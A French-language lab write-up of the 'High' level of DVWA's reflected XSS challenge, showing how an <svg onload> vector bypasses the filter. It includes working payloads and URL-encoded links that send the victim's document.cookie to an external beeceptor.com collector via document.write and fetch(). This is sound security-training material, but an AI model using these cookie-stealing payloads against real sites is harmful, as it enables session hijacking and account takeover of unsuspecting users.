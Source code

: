 # Niveau "High"

Aucun changement dans la manière que fonctionne le challenge pour ce niveau "High" :

![](../../../../.gitbook/assets/716e7582a5a588ae1a060267a461ee1c.png)

Nous testons notre habituelle `alert()` box :

![](../../../../.gitbook/assets/be95dcea4fbc2fc579eace9e837711ef.png)

Il semble qu'un filtrage soit effectué ici, mais les contournements simples ne fonctionnent pas \(mélange de minuscule/majuscules sur les balises, doublement des balises etc\). Dans ce cas, il faut tenter d'autres balises mais pouvant tout de même conduire à l'exécution de script.

Par exemple, ici j'utilise la base `<svg>`  :

![](../../../../.gitbook/assets/d34944f150f5bff49c901488cd30269d.png)

On adapte notre payload utilisée plus tôt :

```markup
<svg onload="document.write('<img src=\'https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie + '\'>')">
```

![](../../../../.gitbook/assets/a87c9290388f12caeaac8b12ec8b8bac.png)

```text
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3Csvg+onload%3D%22document.write%28%27%3Cimg+src%3D%5C%27https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%5C%27%2F%3E%27%29%22%3E#
```

Malheureusement cela ne fonctionne pas, un autre filtre doit être en place. De plus, notre payload a un problème, elle écrit l'image dans une nouvelle page, ce qui n'est pas du tout transparent pour la victime \(pour visualiser ce comportement, il est possible de tester la payload en niveau "Low"\).

Afin de contourner le filtre j'utilise la méthode la méthode `fetch()` au lieu de `document.write()` :

```markup
<svg onload="fetch('https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie);">
```

![](../../../../.gitbook/assets/43aac60b26406396f594b81acd86385f.png)

Soit L'URL suivante à fournir à notre victime :

```text
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3Csvg+onload%3D%22fetch%28%27https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie%29%3B%22%3E#
```

Finalement, nous récupérons son jeton :

![](../../../../.gitbook/assets/625d7342e0fcd6fe773feb4a7a0467cb.png)

